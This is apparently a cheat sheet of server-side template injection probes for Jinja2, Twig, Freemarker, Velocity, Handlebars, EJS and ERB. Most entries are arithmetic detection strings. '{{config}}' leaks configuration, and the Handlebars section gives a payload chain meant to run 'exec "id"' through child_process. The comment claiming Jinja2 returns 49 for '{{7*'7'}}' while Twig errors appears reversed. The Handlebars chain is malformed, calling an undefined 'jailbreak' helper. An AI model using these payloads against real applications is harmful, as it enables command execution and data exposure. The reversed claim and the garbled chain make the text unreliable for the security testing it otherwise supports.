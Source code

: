 ### Error-Based Detection

Sending invalid syntax to generate errors:

```
{% raw %}
{{7*'7'}}
${foobar}
<%= undefined_variable %>
{% endraw %}
```

### Detection by Template Engine

#### Jinja2/Twig (Python/PHP)
```
{% raw %}
{{7*'7'}}     # Jinja2 will execute and return 49, Twig will error
{{config}}    # Jinja2 specific
{{dump()}}    # Twig specific
{% endraw %}
```

#### Freemarker (Java)
```
${7*7}
<#if 7*7==49>True</#if>
```

#### Velocity (Java)
```
#set($x = 7*7)${x}
#if(7*7==49)True#{end}
```

#### Handlebars (JavaScript)
```
{% raw %}
{{#if (eq (math 7 "*" 7) 49)}}True{{/if}}
{{#with "s" as |string|}}{{#with "e"}}{{#with split as |sp|}}{{#with "../../../lookup"}}{{#with (lookup (lookup (string.sub sp.0 7 8)) string.sub) as |safe|}}{{#with (lookup"constructor" safe.data)}}{{#with (safe.apply this undefined safe.data)}}{{#with (lookup"process" global)}}{{#with (jailbreak (lookup"mainModule" this))}}{{#with (jailbreak (this.require "child_process"))}}{{jailbreak (this.exec "id")}}{{/with}}{{/with}}{{/with}}{{/with}}{{/with}}{{/with}}{{/with}}{{/with}}{{/with}}{{/with}}
{% endraw %}
```

#### EJS (JavaScript)
```
<%= 7*7 %>
<% if(7*7==49) { %>True<% } %>
```

#### ERB (Ruby)
```
<%= 7*7 %>
<% if 7*7==49 %>True<% end %>
```
